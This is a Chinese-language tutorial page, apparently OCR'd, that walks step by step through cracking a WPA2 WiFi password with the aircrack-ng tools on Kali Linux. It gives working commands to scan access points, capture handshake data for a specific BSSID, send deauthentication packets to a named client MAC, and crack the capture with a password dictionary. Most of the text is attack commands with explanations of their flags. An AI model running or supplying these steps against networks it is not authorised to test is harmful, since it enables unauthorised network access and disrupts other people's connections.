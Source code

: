 这里要注意的，在开启监听模式之后，wlan0 这个网卡名称现在叫wlan0mon(偶尔也会不变，具体叫什么看上图的提示)

**扫描目标WiFi** 

```
root@kali:~# airodump-ng wlan0mon
```

注意现在的连个方框（红色和蓝色区域），现在我们要确认一些信息，及目标AP（就是WiFi，以下简称AP） 的MAC 地址，AP 的信道和加密方式，还有目标用户的MAC地址，我们稍微整理一下： 蓝色区域：目标AP的MAC地址（WiFi路由器的） 红色区域：目标用户的MAC地址（我的手机的） CH（信道）：1 加密方式：WPA2 我们只需要这些信息就足够了

**模拟WiFi 信号** 

```
root@kali:~# airodump-ng --ivs -w wifi-pass --bssid 1C:60:DE:77:B9:C0 -c 1 wlan0mon
```

–ivs ：指定生成文件的格式，这里格式是ivs（比如：abc.ivs） -w ：指定文件的名称叫什么，这里叫wifi-pass –bssid ：目标AP的MAC地址，就是之前蓝色区域的 -c ：指定我们模拟的WiFi的信道，这里是1 敲下回车后会看到这样的一段信息，这就说明我们模拟的WiFi 已经开始抓取指定文件了，不过要注意红色箭头的位置，如果想这样一直是空的就是没有抓到需要的信息，如果抓到了看下图，可以对比出来

**攻击指定的用户** 这里使用另一个空闲的终端，执行以下命令 

```
root@kali:~# aireplay-ng -0 20 -a 1C:60:DE:77:B9:C0 -c 18:E2:9F:B0:8B:37 wlan0mon
```

-0 ：发送工具数据包的数量，这里是20个 -a ：指定目标AP的MAC地址 -c ：指定用户的MAC地址，（正在使用WiFi的我的手机） 攻击开始后就像这样～

**得到密码文件并破解**  注意红色箭头指向的位置，如果在发送攻击数据包之后出现了图片里的信息，那么就是密码信息抓取成功了，如果出现了这个的话就可以结束WiFi 模拟了，我们可以按Ctrl+C 然后查看当前目录会发现多了一个wifi-pass-01.ivs 文件，我们想要的密码就在这个文件里，不过是加密的，所有我们还需要通过密码字典把密码破解出来

**指定密码本来破解此文件** 

```
root@kali:~# aircrack-ng wifi-pass-01.ivs -w /root/pass-heji.txt
```

-w ： 指定密码字典（比如我的在/root下，所有多了绝对路径） 这里看到红色箭头的位置就是密码了，到这里密码破解就完成了~
